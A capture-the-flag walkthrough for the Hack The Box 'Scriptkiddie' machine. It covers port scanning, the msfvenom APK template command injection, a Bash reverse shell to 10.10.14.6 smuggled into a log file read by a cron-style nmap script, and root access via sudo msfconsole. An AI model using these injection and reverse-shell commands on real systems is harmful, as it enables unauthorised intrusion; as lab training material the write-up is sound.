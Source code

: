 # Hackthebox: Scriptkiddie writeup

Scriptkiddie is an easy box which is based around using a hacker's tools against them. Definitely an interesting concept that taught me we also need to be careful even if we're technically minded.

## Enumeration

First of all, running nmap to check for open ports:

```
nmap -p- 10.10.10.226

Starting Nmap 7.60 ( https://nmap.org ) at 2021-06-05 12:26 BST
Nmap scan report for scriptkiddie.htb (10.10.10.226)
Host is up (0.017s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

I check out `http://scriptkiddie.htb:5000/`, which seems to have a few options: nmap, payload generation, and searchsploit.
I eventually noticed that in the payload generation there's an option to generate a payload with android which seemed unusual.
After some googling, there seems to be a vulnerability (https://www.exploit-db.com/exploits/49491) with msfvenom's apk payload generation. 
It seems possible to manufacture a .apk template for the msfvenom command which allows us to run a command on the remote system.

## Foothold

Looking up in `msfconsole`, there seems to be an exploit for it there that we can use:
```
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.?.?
lhost => 10.10.?.?
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

```

This will generate the evil apk file:

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/erry/.msf4/local/msf.apk
```

Now we have to start a reverse shell ourselves on the host and port that we specified earlier.

```
erry@erry-Virtual-Machine:~/hax$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

Go back to the scriptkiddie website. Select OS: android , lhost: 127.0.0.1 (it doesn'#t matter), and as template file select the evil apk generated earlier.

Wait on our reverse shell, seems like we got a connection:

```
erry@erry-Virtual-Machine:~/hax$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)

Connection from 10.10.10.226 32962 received!

id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

## User Flag

It seems we have a connection from the user `kid`. 
We can directly read `/home/kid` and `/home/kid/user.txt`.
Congrats, you have the user flag!
```
cat /home/kid/user.txt
```


If desired, we can add our public key in `/home/kid/.ssh/authorized_hosts` to be able to easily access the machine in future.

## Privesc (pwn)

It doesn't look like `kid` can do much and we do not have sudo password.
However, checking around the system it seems that there is another user that may be interesting:


```
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```

We can read pwn's home dir and we find this file:

```
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

It looks like the pwn user is constructing an nmap command based on the `/home/kid/logs/hackers` file. 
Maybe we can take advantage of that running command to run a command of our own when the script runs?

After some crafting, we have a string that we can put in the `logs/hackers` file:

```
  ;  /bin/bash -c "bash -i >& /dev/tcp/10.10.14.6/4442 0>&1" #
```

The space in front is for the `cut -d ' ' -f3-` command because it will grab the string after 2 spaces. This will force the executed command to be like this:

```
sh -c "nmap --top-ports 10 -oN recon/; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4442 0>&1' # rest of command here"
```

which will force a bash shell to open as `pwn`.

Now we have the connection on our reverse shell!

```
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$
```

# Privesc (root)

Right away we see that we have sudo:

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

It looks like we can run msfconsole as root.

```
pwn@scriptkiddie:~$ sudo msfconsole
sudo msfconsole
```

now we can just run `bash` through msfconsole.

```
id
uid=0(root) gid=0(root) groups=0(root)
```

```
cat /root/root.txt
```

Congrats, we have the root flag!

